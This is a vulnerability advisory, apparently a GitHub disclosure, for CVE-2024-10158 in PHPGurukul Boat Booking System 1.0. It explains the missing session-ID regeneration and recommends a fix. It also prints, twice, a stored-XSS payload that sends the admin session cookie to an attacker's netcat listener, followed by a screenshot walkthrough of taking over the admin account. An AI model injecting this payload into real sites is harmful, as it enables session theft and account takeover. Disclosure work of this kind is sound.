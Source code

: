 # Session Fixation vulnerability from phpgurukul Boat Booking System 1.0 
## CVE-2024-10158

> A vulnerability classified as problematic has been found in PHPGurukul Boat Booking System 1.0. Affected is the function session_start. The manipulation with an unknown input leads to a session fixiation vulnerability. CWE is classifying the issue as CWE-384. Authenticating a user, or otherwise establishing a new user session, without invalidating any existing session identifier gives an attacker the opportunity to steal authenticated sessions. This is going to have an impact on integrity.



**Affected Project**: Boat Booking System 1.0

**Official Website**: https://phpgurukul.com/boat-booking-system-using-php-and-mysql/

**Version**: 1.0

**Related Code file**: book-boat.php

## Vulnerability Description

The session is being started (session_start()) without regenerating the session ID after login, which could expose the system to session fixation attacks. An attacker can force a session ID onto a victim and then hijack it after the victim logs in.

**Risk**: If an attacker gets hold of the session ID (via XSS or other means), they could hijack the session and impersonate the user.

**Fix**: After logging in, regenerate the session ID to prevent this attack.

Via injecting `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>` payload to forms in `book-boat.php`, attacker can inject a XSS payload.

When admin user sign in to check on `all-booking.php`, payload will be triggered and admin cookie is forwarded to attacker's netcat listener, which can be used to login as the admin user without needing any credentials. 


## Demonstration

Below is how boat booking system looks like. Let's fill it up with Session Hijacking payload: `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>`

![Screenshot from 2024-10-17 11-57-34](https://github.com/user-attachments/assets/66af02a8-6ef0-4c27-b8f7-beeef3b11454)

We can see that the booking was done successfully:

![Screenshot from 2024-10-17 11-57-45](https://github.com/user-attachments/assets/50d16838-f7e8-4043-befc-3c2cca27d422)

Now, sign in as the admin:

![Screenshot from 2024-10-17 11-58-06](https://github.com/user-attachments/assets/b1e98c53-530f-475d-8ab6-ff2ceee9be4c)

Going to `all-booking.php`, payload is triggered, and attacker's netcat listener intercepts the admin session cookie:

![Screenshot from 2024-10-17 11-58-23](https://github.com/user-attachments/assets/e79d126a-4a8c-4202-a494-b08c0cbc6806)

Using `atob`, this can be decoded to PHPSESSID:

![Screenshot from 2024-10-17 11-59-46](https://github.com/user-attachments/assets/521ffa2f-55d2-45d5-8f15-0f33c58b869d)

Use coookie editor to set the browser cookie to intercepted admin cookie:

![Screenshot from 2024-10-17 12-10-03](https://github.com/user-attachments/assets/5c64497e-cf01-42c3-9792-e38c3eee2d39)

Without needing any admin credentials, attacker is now able to access admin dashboard with admin privilege:

![Screenshot from 2024-10-17 12-00-38](https://github.com/user-attachments/assets/37deba4e-1095-4aea-bc81-ef0a4dabcd3b)


